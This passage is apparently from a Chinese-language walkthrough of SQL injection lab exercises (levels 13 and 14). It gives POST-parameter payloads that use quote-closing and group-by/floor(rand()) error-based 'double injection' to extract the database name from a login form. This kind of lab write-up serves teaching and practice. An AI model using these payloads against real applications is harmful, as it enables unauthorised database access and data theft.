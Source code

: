 ![5](/img/2018-08-03/5.png)
##### 第十三关
post型基于单引号的双注入，第五关讲过，直接拿第五关的payload
```
uname=123&passwd=123') union select count(*),concat_ws(':',(select database()),floor(rand()*2)) as a from information_schema.tables group by a-- + &submit=Submit
```
一次没成功就多试几次
![6](/img/2018-08-03/6.png)
##### 第十四关
post型基于双引号的双注入，跟第十三关一样，payload如下
```
uname=123&passwd=123" union select count(*),concat_ws(':',(select database()),floor(rand()*2)) as a from information_schema.tables group by a-- + &submit=Submit
```